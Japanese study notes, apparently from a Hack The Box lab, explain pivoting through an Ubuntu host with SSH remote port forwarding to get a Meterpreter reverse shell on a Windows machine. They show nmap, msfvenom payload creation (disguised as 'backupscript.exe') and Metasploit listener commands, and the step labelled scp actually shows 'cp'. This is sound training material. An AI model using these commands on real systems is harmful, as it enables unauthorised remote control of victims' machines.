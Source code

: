 Sshuttleを利用した場合は、自動的にUbuntuをピボットホストとして利用して、別ネットワークに接続できる
```shell-session
nmap -v -sV -p3389 172.16.5.19 -A -Pn
```
# リモートポートフォワーディング
リモートポートフォワーディングの必要性
- ダイナミックポートフォワーディングで、Windows AにRDPとかで接続することはできる
- しかし、WIndowsAとAttack Hostでリバースシェルを確立しようとしたとき、WindowsA側からAttcak Hostにアクセスできないので、リバースシェルが確立できない
	- Windows AとAttackHostが同じネットワークにいないため
- リバースシェルの必要性
	- RDPのクリップボードが無効になっているため、**ファイルのアップロード/ダウンロードができない**。
	- Windowsホスト上で詳細なシステム調査（Enumeration）を行うために **Meterpreter セッション** を使用したい。
	- Windowsの低レベルAPIを使ったエクスプロイト実行が必要になる。
![](https://i.imgur.com/698UfEp.png)

## SSHでのリモートポートフォワーディングを使ったリバースシェルの確立
- まず、攻撃ホストとWindowsサーバーの両方に接続できるピボットホストを見つける必要がある
	- 上の図の場合は、Victim Server(Ubuntu)
- Windowsホストで **Meterpreter シェルを取得する** ためには、msfvenom を使って **Meterpreter HTTPSペイロード** を作成する
	- リバースシェルの接続先（LHOST）として指定するのは **Victim Server(Ubuntu)サーバー** のIPアドレス
	- その後、Victim Server(Ubuntu)サーバーを中継し、**ポート8080を使用してリバースシェルのトラフィックをAttack Hostのポート8000に転送** する
	- Attack Host側では、Metasploitのリスナーをポート8000で実行し、リバースシェルの接続を待ち受ける

接続の流れ
1. Victim Server(Windows A)でMeterpreterペイロードを実行（LHOST=172.16.5.129, LPORT=8080）
2. Victim Server(Windows A) → Victim Server(Ubuntu)（172.16.5.129:8080）にリバースシェルの接続要求を送信
3. Victim Server(Ubuntu)がポート8080のトラフィックをAtaack Hostのポート8000に転送
4. Attack Host（Metasploitリスナー8000)でリバースシェルを受信
5. Attack HostとWindows Aの間にリバースシェル確立完了

### コマンド
msfvenom を使用した Windows ペイロードの作成
- ペイロードの**リバース接続先（LHOST）としてピボットホスト（Ubuntuサーバー）のIPアドレスを指定** し、**ポート8080** を使用
```shell
snowyowl644@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <ピボットホストの_IP> -f exe -o backupscript.exe LPORT=8080
```

2. Metasploitのリスナーを設定と開始
```shell
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

3. ペイロードをピボットホスト（Ubuntu）に転送
- すでに**攻撃ホストはピボットホスト（Ubuntu）にSSH接続できるため**、scp を使ってペイロードをピボットホストへ転送する
```sh
snowyowl644@htb[/htb]$ cp backupscript.exe ubuntu@<ピボットホストの_IP>:~/
```
